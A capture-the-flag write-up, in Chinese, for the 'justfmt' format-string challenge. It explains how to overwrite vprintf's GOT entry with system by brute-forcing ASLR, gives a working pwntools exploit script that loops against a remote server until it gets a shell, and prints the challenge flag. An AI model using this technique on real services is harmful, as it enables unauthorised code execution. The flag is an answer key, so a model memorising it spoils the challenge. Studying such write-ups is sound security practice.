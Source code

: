 ## justfmt
### solution
題目大致如下
```c
int main() {
    read(0, buf, 40)
    vprintf(buf);
    vprintf(buf);
}
```
本題`vprintf`有40 bytes buffer的format string漏洞，基本上能辦到任意寫跟leak，詭異的點在於連續`vprintf`兩次，但中間卻沒有任何輸入能改變buf。

題目給了libc，但只有一次input，就算leak出位址了也不能再次輸入，沒有leak的話也沒辦法知道return的位址來控制rip，

檔案只有PARTIAL RELRO，唯一想到控制rip的方法是overwrite `vprintf@got`，原本想試圖寫為`main`之類的，但若是寫掉`vprintf`也就無法再繼續使用漏洞，試著partial寫成one gadget也都fail。

最後想到的是不穩定的方式，在提供的libc中可以發現`vprintf`位址為`0x4f040`，`system`為`0x46590`，由於ASLR不會隨機化最後12bits，且這兩者在附近，因此我們可以試著把`vprintf@got`最後2 bytes(16bits)寫成`0x6590`，如此一來只要賭前4個bit(16種可能)，也就是1/16的機率相同即可執行`system`。

再來是payload，由於要執行shell，因此最前面加上`sh #`來截斷後面的部份即可。

### script
```python
#!/usr/bin/env python3
from pwn import *
context(arch="amd64")

while True :
    r = remote("104.199.235.135", 2113)
    binary = ELF("justfmt")
    libc = ELF("libc-2.19.so")

    payload = b"sh #"
    payload += b"%%%dc%%13$hn" % (libc.symbols[b"system"] % 0x10000 - len(payload))
    payload += b"a" * (0x38 - len(payload))
    payload += p64(binary.got[b'vprintf'])

    r.sendline(payload)
    try:
        r.interactive()
    except:
        r.close()
        continue
```
### flag
```
AIS3{fMt_stR1n6_1s_H4rp_s0w3t1meS_dnt_1ts_fnu!!}
```
